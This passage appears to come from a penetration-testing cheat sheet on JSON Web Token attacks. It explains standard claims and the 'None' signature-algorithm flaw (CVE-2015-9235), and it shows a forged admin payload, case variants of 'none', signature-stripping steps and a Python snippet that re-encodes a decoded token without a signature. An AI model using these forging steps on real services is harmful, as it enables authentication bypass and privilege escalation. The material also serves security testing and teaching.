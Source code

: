 
### Payload

```json
{
    "sub":"1234567890",
    "name":"Amazing Haxx0r",
    "exp":"1466270722",
    "admin":true
}
```

Claims are the predefined keys and their values:
- iss: issuer of the token
- exp: the expiration timestamp (reject tokens which have expired). Note: as defined in the spec, this must be in seconds.
- iat: The time the JWT was issued. Can be used to determine the age of the JWT
- nbf: "not before" is a future time when the token will become active.
- jti: unique identifier for the JWT. Used to prevent the JWT from being re-used or replayed.
- sub: subject of the token (rarely used)
- aud: audience of the token (also rarely used)

JWT Encoder – Decoder: `http://jsonwebtoken.io`

## JWT Claims

[IANA's JSON Web Token Claims](https://www.iana.org/assignments/jwt/jwt.xhtml)


## JWT Signature - None algorithm (CVE-2015-9235)

JWT supports a `None` algorithm for signature. This was probably introduced to debug applications. However, this can have a severe impact on the security of the application.

None algorithm variants:
* none 
* None
* NONE
* nOnE

To exploit this vulnerability, you just need to decode the JWT and change the algorithm used for the signature. Then you can submit your new JWT.

However, this won't work unless you **remove** the signature

Alternatively you can modify an existing JWT (be careful with the expiration time)

```python
import jwt

jwtToken = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.YWUyMGU4YTI2ZGEyZTQ1MzYzOWRkMjI5YzIyZmZhZWM0NmRlMWVhNTM3NTQwYWY2MGU5ZGMwNjBmMmU1ODQ3OQ'
decodedToken = jwt.decode(jwtToken, verify=False)  					

# decode the token before encoding with type 'None'
noneEncoded 	= jwt.encode(decodedToken, key='', algorithm=None)

print(noneEncoded.decode())
```
